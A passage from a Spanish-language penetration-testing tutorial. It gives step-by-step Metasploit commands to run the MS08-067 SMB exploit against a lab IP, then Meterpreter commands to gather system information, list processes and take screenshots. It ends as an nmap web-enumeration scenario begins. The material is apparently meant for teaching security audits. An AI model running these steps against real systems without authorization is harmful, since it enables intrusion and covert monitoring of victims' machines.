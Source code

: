 1. Inicia Metasploit en Kali Linux:
   ```bash
   msfconsole
   ```

2. Carga el exploit correspondiente:
   ```bash
   use exploit/windows/smb/ms08_067_netapi
   ```

3. Configura la IP del objetivo:
   ```bash
   set RHOST 192.168.1.10
   ```

4. Ejecuta el exploit:
   ```bash
   exploit
   ```

Si el exploit tiene éxito, obtendrás acceso al sistema objetivo y podrás iniciar la fase de post-explotación.

##### **Paso 4: Post-explotación**
Una vez comprometido el sistema, puedes utilizar módulos de Metasploit para recopilar información, mantener el acceso o escalar privilegios en el sistema comprometido. Aquí te dejo algunos comandos útiles de **Meterpreter**:

- **Revisar información del sistema**:
   ```bash
   sysinfo
   ```
- **Listar procesos activos**:
   ```bash
   ps
   ```
- **Capturar pantallas del sistema comprometido**:
   ```bash
   screenshot
   ```

#### **8.2. Escenario 2: Auditoría de seguridad en aplicaciones web**

##### **Objetivo**: Utilizar Nmap para realizar un escaneo de vulnerabilidades en una aplicación web y, posteriormente, utilizar Metasploit para explotar una vulnerabilidad.

##### **Paso 1: Identificación de la aplicación web**
Supongamos que el objetivo es auditar una aplicación web alojada en un servidor en la IP `192.168.1.20`. Primero, utilizamos Nmap para escanear los puertos y servicios del servidor.

Ejecuta el siguiente comando para descubrir servicios web en el host:
```bash
nmap -p 80,443 --script http-enum 192.168.1.20
```
Este comando utiliza el script **http-enum** de Nmap para identificar directorios y servicios potencialmente vulnerables en la aplicación web.
